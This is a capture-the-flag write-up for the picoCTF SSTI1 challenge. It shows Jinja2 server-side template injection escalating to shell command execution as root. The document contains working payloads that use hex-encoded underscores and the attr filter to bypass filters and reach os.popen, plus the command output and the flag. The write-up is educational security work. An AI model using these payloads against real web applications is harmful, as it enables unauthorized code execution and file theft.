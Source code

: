 >> picoCTF — SSTI1 (Server-Side Template Injection) Writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Medium

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to submit payloads via the provided form).  
- Optional: local text editor to compose payloads before copying into the form.

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:

![Step 1](images/1.png)

```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```
![Step 2](images/2.png)

+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```
![Step 3](images/3.png)

+ Then I submitted the form. The page returned and showed:
```bash
49
```

![Step 4](images/4.png)

+ This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![Step 5](images/5.png)

+ After submitting the form, the page reflected:

```text
uid=0(root) gid=0(root) groups=0(root)
```

![Step 6](images/6.png)

+ This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

+ Next, I listed files by submitting:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
![Step 7](images/7.png)

+ The page returned:

```text
__pycache__
app.py
flag
requirements.txt
```

![Step 8](images/8.png)

+ This confirmed a flag file exists in the application directory.


### 5. Read the flag file

+ Finally, I retrieved the flag by submitting:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

![Step 9](images/9.png)

+ The page returned the flag:
```bash
picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```
![Step 10](images/10.png)

## Final Flag:
```bash
picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```

## Technical Note: Why the Long Payload?
+ The payload used in this challenge:
```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

## Reasons for using this format:

+ `\x5f` is hexadecimal encoding for the `_ `character, used to bypass potential security filters

+ Using the `attr` filter instead of dots `(.)` for attribute access

+ This method is more resistant to simple WAFs and security filters


---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using `request.application.__globals__.__builtins__.__import__('os')` allowed importing os from within the template sandbox (when direct import is unavailable). From there `os.popen()` executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.

